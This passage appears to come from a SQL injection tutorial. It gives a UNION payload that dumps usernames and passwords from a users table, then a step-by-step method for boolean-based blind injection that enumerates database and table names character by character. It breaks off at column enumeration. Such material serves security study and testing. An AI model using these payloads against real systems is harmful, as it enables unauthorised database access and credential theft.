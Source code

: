Example payload to dump username and password from table \[users] in \[sqlhacked]

```SQL
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM users
```

#### Boolean SQL Injection - Blind

**Note: Boolean based SQL Injection is normally tedious and requires a lot of manual guessing hence you can use SQLmap instead if you needed.** In the blind sql injection, there is no error message returned back as an output hence we can't know if there is sql injection vulnerability. Boolean means that the response is either \[true] or \[false]. In real world scenario, \[false] means no data returned back as a response and \[true] is returned when the response contains data. The aim in this type of sql injection is to return \[true] so that we retrieve data. Say we have the URL below

```
http://domain.com/profile?id=1
```

The corresponding SQL query for that is below

```SQL
select * from profiles where id = '%1%' LIMIT 1;
```

To find a sql injection vulnerability, first we need the number of columns in this table. We would start with a payload like below

```SQL
0' UNION SELECT 1;--
```

With the same method, we keep increasing numbers untill no error is returned which determines the number of colums. Once we determine the number of columns, we can start crafting payloads to enumerate the database.

```SQL
0' UNION SELECT 1,2,3 where database() like 's%';--
```

In the above example, we used the \[like] operator to look for the entries where there is a database whose name starts with \[s]. Since this is boolean based, we need to use the \[like] statement in order to adhere to the \[true] and \[false] forms of output.\
In order to find the database name, we need to keep adding and rotating between characters untill we receive a response containing the database name. The next payload would look like the one below

```SQL
0' UNION SELECT 1,2,3 where database() like 'sq%';--
```

Suppose you were able to find the database name and it was \[dbhacked] then you will need to dump its tables.

```SQL
0' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'dbhacked' and table_name like 'a%';--
```

With the same manner, keep adding characters untill you hit a response containing table name. Suppose you found a table named \[users]. You want to dump its columns.
